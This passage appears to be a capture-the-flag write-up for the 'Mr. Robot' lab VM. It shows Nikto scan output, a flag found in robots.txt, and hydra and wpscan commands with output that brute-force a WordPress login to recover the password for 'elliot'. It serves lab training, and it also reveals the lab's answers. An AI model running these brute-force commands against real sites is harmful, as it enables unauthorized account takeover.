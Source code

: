 ```
+ /readme.html: This WordPress file reveals the installed version.
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress/: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ 7535 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2017-10-03 21:23:56 (GMT1) (367 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

### Flag 1 - robots.txt

There are 3 flags, we find our first one in robots.txt `https://192.168.1.101/key-1-of-3.txt` with flag `073403c8a58a1f80d943455fb30724b9`. So far so goood.

### Flag 2 - Wordpress Login

We check the second file and save it somewhere `https://192.168.1.101/fsocity.dic`. The file seems to be some sort of wordlist, which I imagine we will have to use hydra. There are also a lot of repeated words in there. `sort fsocity.dic | uniq > fsocietyless.dic`. We also see it is wordpress and can either try to find exploitable plugins or use our word list for some dictionary attack.

For the wordpress login, when we try to login  with elliot (the main character of Mr. Robot), it tells us the username is correct is wrong. If this is still insufficient, we can scrape the wikipedia article for names `cewl https://en.wikipedia.org/wiki/Mr._Robot -d 0 -w userlist` we can do `wpscan -u http://192.168.1.101 --wordlist /root/Downloads/fsocity.dic --username elliot` or `hydra -l elliot -P /usr/share/wordlists/rockyou.txt 192.168.1.101 http-form-post \
"/wp-login.php:log=^USER^&pwd=^PASS^:login_error"'`. I tested it with both, and wpscan and it is much faster.

```
root@kali:~# hydra -l elliot -P test/fsocietyless.dic 192.168.1.101 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&redirect_to=http%3A%2F%2F10.0.2.7%2Fwp-admin%2F&testcookie=1:login_error"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-10-04 03:18:41
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://192.168.1.101:80//wp-login.php:log=^USER^&pwd=^PASS^&redirect_to=http%3A%2F%2F10.0.2.7%2Fwp-admin%2F&testcookie=1:login_error
[STATUS] 763.00 tries/min, 763 tries in 00:01h, 10689 to do in 00:15h, 16 active
[STATUS] 765.67 tries/min, 2297 tries in 00:03h, 9155 to do in 00:12h, 16 active
[STATUS] 764.57 tries/min, 5352 tries in 00:07h, 6100 to do in 00:08h, 16 active
[80][http-post-form] host: 192.168.1.101   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-10-04 03:26:16


root@kali:~# wpscan --url 192.168.1.101 --wordlist ~/test/fsocietyless.dic --username elliot
_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
```